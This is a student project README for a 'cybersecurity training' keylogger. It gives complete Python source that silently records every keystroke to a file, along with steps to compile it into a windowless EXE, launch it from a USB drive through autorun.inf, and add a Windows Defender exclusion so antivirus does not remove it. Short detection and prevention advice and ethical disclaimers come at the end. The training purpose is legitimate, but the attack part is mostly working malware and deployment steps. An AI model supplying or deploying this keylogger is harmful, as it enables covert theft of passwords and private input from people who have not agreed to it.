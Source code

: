 # **Keylogger Project for Cybersecurity Training**  

### **By:** Bilal Sihadi & Mohamed Rouabhi  
### **Course:** CIS 260  
### **Professor:** MD Ali  

---

## 📌 **Project Overview**  
This project is about developing a **keylogger** for **educational and ethical use** in cybersecurity training. The goal is to understand how keyloggers work, how they can capture sensitive data, and how to detect and prevent them.  

⚠ **Important:** This project is **only for learning purposes**. Using keyloggers without permission is illegal. Always follow ethical hacking guidelines.  

---

## 🎯 **Project Goals**  
- ✅ Build a **software-based keylogger** using **Python**.  
- ✅ Deploy a **USB-based keylogger** that runs when plugged into a computer.  
- ✅ Study how keyloggers work on **Windows and Linux**.  
- ✅ Research and test **detection & prevention methods**.  

---

##  **Features**  
### **🔹 Software Keylogger**  
- Records **all keystrokes** (letters, numbers, special keys).  
- Saves logs **locally** with **timestamps**.  
- Works on **Windows & Linux**.  
- Can run in **stealth mode**.  

### **🔹 USB-Based Keylogger (Software Approach)**  
- Runs automatically when plugged into a Windows machine.  
- Stores captured keystrokes on the USB drive.  
- Uses **Python and AutoRun scripts**.  
- No need for special hardware.  

---

##  **How to Install & Run in Windows**  

### **1️⃣ Software Keylogger (Python)**  
#### **Requirements:**  
- Python 3.13  
- Required library: `pynput`  

![xxx](https://github.com/user-attachments/assets/c1e00f6a-a929-4c17-bd29-517bd8da9bad)

#### **Installation:**  
```sh
pip install pynput
```

#### **Keylogger Code (Python)**  
Copy and save the following code as **keylogger.py**:

```python
from pynput import keyboard   # Import the keyboard listener from the pynput library
from datetime import datetime   # Used to timestamp each keypress
import time    # Used to keep the script running
def keyPressed(key):    # Handles key press events, logs the key pressed along with the timestamp.
     with open("keyfile.txt", 'a') as logKey:  # Open the log file in append mode so previous keystrokes are not overwritten
         try:
             # Log regular character (letters, numbers) 
             logKey.write(f"{datetime.now()} - {key.char}\n")
         except AttributeError:
             # Log special keys (like Enter, Shift, etc.) with timestamp in brackets
             logKey.write(f"{datetime.now()} - [{key.name}]\n")
 
if __name__ == "__main__":
     # Start listening for key presses
     listener = keyboard.Listener(on_press=keyPressed)
     listener.start()  # Start listening
     # Keep the script running quietly in the background
     while True:
         time.sleep(1) # Sleep to prevent high CPU usage
```

#### **Run the Keylogger:**  
```sh
python keylogger.py
```
- The script will record all keystrokes and store them in **keyfile.txt**.  

---

### **2️⃣ USB Keylogger Setup (Windows - Software-Based)**  
This method turns a normal USB drive into a **portable keylogger** that starts when plugged into a Windows computer.
![vvvvvv](https://github.com/user-attachments/assets/0fa7454d-81fb-4028-8777-f23a8bf06991)

#### **Step 1: Convert the Keylogger to an Executable**  
To run without needing Python installed, convert it into an **EXE file**:  
```sh
pip install pyinstaller
pyinstaller --onefile --noconsole keylogger.py
```
![zzz](https://github.com/user-attachments/assets/1281becb-9dc9-412a-9440-69025ffa8628)

- This will create an EXE file in the `dist/` folder.  
- Move `dist/keylogger.exe` to the USB drive.  

---

#### **Step 2: Create an Autorun Script**  
1. Open Notepad and paste the following:  
   ```ini
   [Autorun]
   open=keylogger.exe
   action=Open folder to view files
   ```
2. Save this as **autorun.inf** on the USB drive.  

---

#### **Step 3: Plug the USB Into a Windows Computer**  
- If **AutoRun** is enabled, `keylogger.exe` will start running in the background.  
- If not, manually open the USB and **run keylogger.exe**.
  
  ![vv](https://github.com/user-attachments/assets/88f3a628-336b-4a40-a047-f45cd780964a)
  
---

## 📄 Example Output

The keylogger stores keystrokes with timestamps in a file named `keyfile.txt`.  
Below is a sample snippet of the output:

![ccc](https://github.com/user-attachments/assets/33b01b86-f41e-443c-ac4b-6cea9582a52c)


---
## 🔐 Windows Defender Exclusion

To prevent automatic deletion during testing:

1. Open **Windows Security**
2. Go to **Virus & threat protection** → **Manage settings**
3. Scroll down to the **Exclusions** section
4. Click **Add or remove exclusions**
5. Add:
   - The `.exe` file (e.g., `keylogger.exe`)
     
⚠️ This step is important because antivirus software (especially Windows Defender) will likely detect and remove your keylogger.

![nnnn](https://github.com/user-attachments/assets/4c7d0f56-911c-4ecd-bd2d-106f8fa01e3c)

---

## 🛡️ How to Detect & Prevent Keyloggers

Keyloggers can be hidden in software or hardware. Below are steps to help detect and prevent them:

- **Disable AutoRun & AutoPlay**  
  Prevents automatic execution from USB or external media.

- **Use Antivirus & Endpoint Security**  
  Scan for known keylogger signatures and behavior.

- **Monitor Running Processes**  
  Identify unusual or suspicious tasks using Task Manager or `ps`.
  
![qqq](https://github.com/user-attachments/assets/c71717f9-e089-4674-8fdd-48c79578d6c3)

- **Encrypt Sensitive Keystrokes**  
  Use tools or secure input fields that protect against keylogging.

- **Check for USB-Based Devices**  
  Inspect physical USB connections. Use device control policies to block unauthorized peripherals (e.g., USBGuard, Windows Group Policy).
  
---

##  **Ethical Considerations**  
- This project is for **learning and research only**.  
- Testing is done in a **controlled environment** (no real user data).  
- Always get **permission** before using keyloggers.  

---

##  **Expected Outcomes**  
- A **fully working keylogger** for **ethical training**.  
- A report on **how to detect and prevent keyloggers**.  
- A better understanding of **cybersecurity threats**.  

---

##  **Contributors**  
  **Bilal Sihadi**  
  **Mohamed Rouabhi**  

---

##  **License**  
This project is licensed under the **MIT License** - see the [LICENSE](LICENSE) file for details.

